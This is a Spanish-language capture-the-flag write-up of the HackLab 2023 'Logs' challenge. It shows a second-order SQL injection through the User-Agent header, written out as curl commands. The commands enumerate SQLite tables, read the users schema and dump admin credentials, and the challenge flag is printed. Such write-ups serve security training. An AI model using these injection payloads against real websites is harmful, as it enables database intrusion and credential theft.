

# Desafío 21 - Logs (HackLab 2023)

**Plataforma:** HackLab (SoftwareSeguro)  
**Edición:** HackLab 2023  
**Categoría:** SQL Injection  

## Enunciado

> Dominic está aprendiendo a desarrollar sitios webs, entonces creó una página para presentarse y mostrar los servicios que puede ofrecer. Quiere saber desde qué tipo de dispositivos visitan su página, entonces agregó una sección 'oculta' de logs en `/logs`.
>
> ¿Dominic solo guardará el dispositivo de los usuarios que visitan la página? ¿Tendrá algún usuario administrador?

## Análisis

La página `/logs` muestra una tabla "Dispositivos que visitan mi página" con tres columnas: `ID`, `Dispositivo` y `Fecha y hora`. La columna `Dispositivo` no es otra cosa que el **User-Agent** de cada visita, es decir, un valor que **controla el cliente**.

### ¿Qué es el User-Agent?

El **User-Agent** es una cabecera HTTP (`User-Agent:`) que el navegador (o cualquier cliente HTTP) envía en cada petición para identificar qué programa y sistema operativo la realiza. Un ejemplo real es la primera fila de la tabla:

```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
```

Ahí Dominic saca la información de "dispositivo": lee esa cabecera y la guarda. El punto clave es que **el User-Agent lo define el cliente, no el servidor**: cualquiera puede enviar el valor que quiera. Con un navegador se puede cambiar con herramientas de desarrollador o extensiones, y con `curl` se establece directamente con la opción `-A` (alias de `--user-agent`). Como todo dato que viene del cliente, es **input no confiable**, y por eso es un buen candidato a probar inyecciones.

### Cómo se detecta que la columna "Dispositivo" es el User-Agent

Basta comparar el contenido de la columna con la estructura típica de un User-Agent (`Mozilla/5.0 (...) Chrome/... Safari/...`): las filas de la tabla son User-Agents completos de distintos navegadores (Chrome, Firefox, Safari, Edge, Opera). Para confirmarlo, se envía una visita con un User-Agent propio usando `curl -A` y se verifica que aparezca tal cual en la tabla (ver [Descarte 1](#descarte-1-el-user-agent-es-reflejado)).

Esto abre dos hipótesis, alineadas con las dos preguntas del enunciado:

1. Si el server guarda y muestra el User-Agent sin tratarlo, podría existir una inyección (XSS almacenado o SQL injection).
2. La mención a un "usuario administrador" sugiere que en el backend hay una tabla de usuarios además de la de logs.

### Descarte 1: el User-Agent es reflejado

Se envía una visita con un User-Agent arbitrario para confirmar que el valor termina en la tabla:

```bash
curl -A "PRUEBA-1234" https://chl-50e4dee5-9d39-495b-9e83-75cd5ff901dd-logs.softwareseguro.com.ar/
```

Al recargar `/logs` aparece una fila nueva con `PRUEBA-1234` en la columna `Dispositivo`. Confirmado: el User-Agent se almacena y se muestra.

### Descarte 2: no hay XSS (el HTML se escapa)

Se prueba inyectar una etiqueta HTML por el User-Agent:

```bash
curl -A "<b>test</b>" https://chl-50e4dee5-9d39-495b-9e83-75cd5ff901dd-logs.softwareseguro.com.ar/
```

En la **vista renderizada** de `/logs` el texto aparece como `<b>test</b>` sin aplicar negrita. Revisando el **código fuente crudo** se confirma que el server escapa el HTML:

```bash
curl -s "https://chl-50e4dee5-9d39-495b-9e83-75cd5ff901dd-logs.softwareseguro.com.ar/logs" | findstr "test"
```

```
            <td>&lt;b&gt;test&lt;/b&gt;</td>
```

Los `<` y `>` salen como entidades (`&lt;` / `&gt;`), por lo que **no hay XSS** por esta vía.

### Descarte 3: no existe panel `/admin`

Se busca una ruta de administración explícita (`/admin`, `/login`) y no existe ninguna. La pista del "usuario administrador" no apunta a un panel, sino a una **tabla de usuarios** en la base de datos.

## Explotación

### Confirmar la SQL injection

Aunque el HTML se escapa para mostrarlo, eso no protege contra SQLi: el escape de HTML y la sanitización de SQL son cosas distintas. Se envía una comilla simple en el User-Agent para ver si rompe la query de inserción del log:

```bash
curl -A "test'" https://chl-50e4dee5-9d39-495b-9e83-75cd5ff901dd-logs.softwareseguro.com.ar/
```

```
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

El **500 Internal Server Error** confirma que el User-Agent se concatena directamente dentro de una sentencia SQL (un `INSERT` en la tabla de logs) sin sanitizar. Es una **SQL injection de segundo orden**: se inyecta al insertar la visita, y el resultado se ve luego al mostrarse el log.

### Identificar el motor

Se prueba la concatenación de cadenas con `||` (sintaxis de SQLite / PostgreSQL):

```bash
curl -A "test' || 'x" https://chl-50e4dee5-9d39-495b-9e83-75cd5ff901dd-logs.softwareseguro.com.ar/
```

No da error y en `/logs` aparece una fila con `testx` en `Dispositivo` (las dos cadenas se concatenaron). El operador `||` funciona → motor **SQLite o PostgreSQL**.

### Enumerar tablas

Se usa una subconsulta a `sqlite_master` (tabla maestra de SQLite) concatenada al valor insertado, para que el resultado quede escrito en la propia fila de log:

```bash
curl -A "x' || (SELECT group_concat(name) FROM sqlite_master WHERE type='table') || 'x" https://chl-50e4dee5-9d39-495b-9e83-75cd5ff901dd-logs.softwareseguro.com.ar/
```

Al recargar `/logs`, la nueva fila muestra en `Dispositivo`:

```
xlogs,sqlite_sequence,usersx
```

Motor confirmado: **SQLite**. Tablas: `logs` (las visitas), `sqlite_sequence` (interna) y **`users`** (el administrador que menciona el enunciado).

### Obtener el esquema de `users`

Se lee el DDL de la tabla desde `sqlite_master`:

```bash
curl -A "x' || (SELECT sql FROM sqlite_master WHERE name='users') || 'x" https://chl-50e4dee5-9d39-495b-9e83-75cd5ff901dd-logs.softwareseguro.com.ar/
```

Resultado en `Dispositivo`:

```
xCREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT)x
```

Columnas: `id`, `username`, `password`.

### Dumpear las credenciales

Con los nombres de columna reales, se extrae usuario y contraseña:

```bash
curl -A "x' || (SELECT group_concat(username || ':' || password) FROM users) || 'x" https://chl-50e4dee5-9d39-495b-9e83-75cd5ff901dd-logs.softwareseguro.com.ar/
```

Resultado en `Dispositivo`:

```
xadmin:7c16e2dead8630673e7b1cb8570fe32ax
```

- **Usuario:** `admin`
- **Contraseña (campo `password`):** `7c16e2dead8630673e7b1cb8570fe32a`

El valor del campo `password` es directamente la flag del desafío (quitando la `x` de relleno que agrega el payload de concatenación).

En la tabla de `/logs` quedan registradas todas las filas de la explotación: la prueba reflejada (`PRUEBA-1234`), el intento de XSS (`<b>test</b>`), la concatenación (`testx`), la enumeración de tablas, el esquema de `users` y el dump final de credenciales:



## Flag

```
7c16e2dead8630673e7b1cb8570fe32a
```
